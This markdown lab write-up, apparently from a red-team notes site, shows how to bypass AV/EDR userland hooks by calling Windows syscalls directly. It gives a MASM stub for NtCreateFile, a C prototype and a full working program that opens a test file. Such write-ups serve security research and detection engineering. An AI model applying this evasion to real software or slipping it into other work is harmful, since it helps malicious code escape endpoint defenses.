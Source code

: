 # Calling Syscalls Directly from Visual Studio to Bypass AVs/EDRs

AVs/EDR solutions usually hook userland Windows APIs in order to decide if the code that is being executed is malicious or not. It's possible to bypass hooked functions by writing your own functions that call syscalls directly.

For a more detailed explanation of the above, read a great research done by [@Cn33liz](https://twitter.com/Cneelis) from [@Outflank](https://twitter.com/OutflankNL): [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/) - now you know what inspired me to do this lab.

With this lab, I wanted to follow along what Cn33liz did and go through the process of incorporating and compiling ASM code from the Visual Studio and simply invoking one syscall to see how it's all done by myself. In this case, I will be playing with `NtCreateFile` syscall as this will be enough to prove the concept.

Also, see my previous labs about API hooking/unhooking: [Windows API Hooking](../code-injection-process-injection/how-to-hook-windows-api-using-c++.md), [Bypassing Cylance and other AVs/EDRs by Unhooking Windows APIs](bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis.md)

## Setting Up Project Environment

Add a new file to the project, say `syscalls.asm` - make sure the main cpp file has a different name as the project will not compile:

![](../../.gitbook/assets/image-121.png)

Navigate to project's `Build Customizations`:

![](../../.gitbook/assets/image-136.png)

Enable `masm`:

![](../../.gitbook/assets/image-176.png)

Configure the `syscalls.asm` file to be part of the project and compiled using Microsoft Macro Assembler:

![](../../.gitbook/assets/image-254.png)

## Defining Syscalls

In the `syscalls.asm`, let's define a procedure `SysNtCreateFile` with a syscall number 55 that is reserved for `NtCreateFile` in [Windows 10](https://j00ru.vexillium.org/syscalls/nt/64/):

{% code title="syscalls.asm" %}
```csharp
.code
    SysNtCreateFile proc
            mov r10, rcx
            mov eax, 55h
            syscall
            ret
    SysNtCreateFile endp
end
```
{% endcode %}

The way we can find the procedure's prologue \(mov r10, rcx, etc..\) is by disassembling the function `NtCreateFile` \(assuming it's not hooked. If hooked, just do the same for, say `NtWriteFile`\) using WinDbg found in `ntdll.dll` module or within Visual Studio by resolving the function's address and viewing its disassembly there:

```cpp
FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
```

![](../../.gitbook/assets/image-117.png)

Disassembling the address of the `NtCreateFile` in `ntdll` - note the highlighted instructions and we can skip the `test` / `jne` instructions at this point as they are irrelevant for this exercise:

![](../../.gitbook/assets/image-252.png)

## Declaring the Calling C Function

Once we have the `SysNtCreateFile` procedure defined in assembly, we need to define the C function prototype that will call that assembly procedure. The `NtCreateFile` prototype per [MSDN](https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntcreatefile) is:

```cpp
// Using the NtCreateFile prototype to define a prototype for SysNtCreateFile. 
// The prorotype name needs to match the procedure name defined in the syscalls.asm
// EXTERN_C tells the compiler to link this function as a C function and use stdcall 
// calling convention - Important!

EXTERN_C NTSTATUS SysNtCreateFile(
    PHANDLE FileHandle, 
    ACCESS_MASK DesiredAccess, 
    POBJECT_ATTRIBUTES ObjectAttributes, 
    PIO_STATUS_BLOCK IoStatusBlock, 
    PLARGE_INTEGER AllocationSize, 
    ULONG FileAttributes, 
    ULONG ShareAccess, 
    ULONG CreateDisposition, 
    ULONG CreateOptions, 
    PVOID EaBuffer, 
    ULONG EaLength
);
```

Once we have the prototype, we can compile the code and check if the `SysNtCreateFile` function can now be found in the process memory by entering the function's name in Visual Studio disassembly panel:

![](../../.gitbook/assets/image-49.png)

The above indicates that assembly instructions were compiled into the binary successfully and once executed, they will issue a syscall `0x55` that is normally called by `NtCreateFile` from within ntdll.

## Initializing Variables and Structures

Before testing `SysNtCreateFile`, we need to initialize some structures and variables \(like the name of the file name to be opened, access requirements, etc.\) required by the `NtCreateFile`:

![](../../.gitbook/assets/image-14.png)

## Invoking the Syscall

Once the variables and structures are initialized, we are ready to invoke the `SysNtCreateFile`:

```cpp
SysNtCreateFile(
    &fileHandle, 
    FILE_GENERIC_WRITE, 
    &oa, 
    &osb, 
    0, 
    FILE_ATTRIBUTE_NORMAL, 
    FILE_SHARE_WRITE, 
    FILE_OVERWRITE_IF, 
    FILE_SYNCHRONOUS_IO_NONALERT, 
    NULL, 
    0
);
```

If we go into debug mode, we can see that all the arguments required by the `SysNtCreateFile` are being pushed on to the stack - as seen on the right disassembler panel where the break point on `SysNtCreateFile` is set:

![](../../.gitbook/assets/image-3.png)

If we continue debugging, the debugger eventually steps in to our assembly code that defines the `SysNtCreateFile` procedure and issues the syscall for `NtCreateFile`. Once the syscall finishes executing, a handle to the opened file `c:\temp\test.txt` is returned to the variable `fileHandle`:

![](../../.gitbook/assets/syscall-debugging.gif)

## So What?

What this all means is that if an AV/EDR product had hooked `NtCreateFile` API call, and was blocking any access to the file c:\temp\test.txt as part of the hooked routine, we would have bypassed that restriction since we did not call the `NtCreateFile` API, but called its syscall directly instead by invoking `SysNtCreateFile` - the AV/EDR would not have intercepted our attempt to open the file and we would have opened it successfully.

## Code

{% code title="syscalls.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include "winternl.h"
#pragma comment(lib, "ntdll")

EXTERN_C NTSTATUS SysNtCreateFile(
    PHANDLE FileHandle, 
    ACCESS_MASK DesiredAccess, 
    POBJECT_ATTRIBUTES ObjectAttributes, 
    PIO_STATUS_BLOCK IoStatusBlock, 
    PLARGE_INTEGER AllocationSize, 
    ULONG FileAttributes, 
    ULONG ShareAccess, 
    ULONG CreateDisposition, 
    ULONG CreateOptions, 
    PVOID EaBuffer, 
    ULONG EaLength);

int main()
{
    FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");

    OBJECT_ATTRIBUTES oa;
    HANDLE fileHandle = NULL;
    NTSTATUS status = NULL;
    UNICODE_STRING fileName;
    IO_STATUS_BLOCK osb;

    RtlInitUnicodeString(&fileName, (PCWSTR)L"\\??\\c:\\temp\\test.txt");
    ZeroMemory(&osb, sizeof(IO_STATUS_BLOCK));
    InitializeObjectAttributes(&oa, &fileName, OBJ_CASE_INSENSITIVE, NULL, NULL);

    SysNtCreateFile(
        &fileHandle, 
        FILE_GENERIC_WRITE, 
        &oa, 
        &osb, 
        0, 
        FILE_ATTRIBUTE_NORMAL, 
        FILE_SHARE_WRITE, 
        FILE_OVERWRITE_IF, 
        FILE_SYNCHRONOUS_IO_NONALERT, 
        NULL, 
        0);

    return 0;
}
```
{% endcode %}

## References

{% embed url="https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntcreatefile" caption="" %}

{% embed url="https://j00ru.vexillium.org/syscalls/nt/64/" caption="" %}

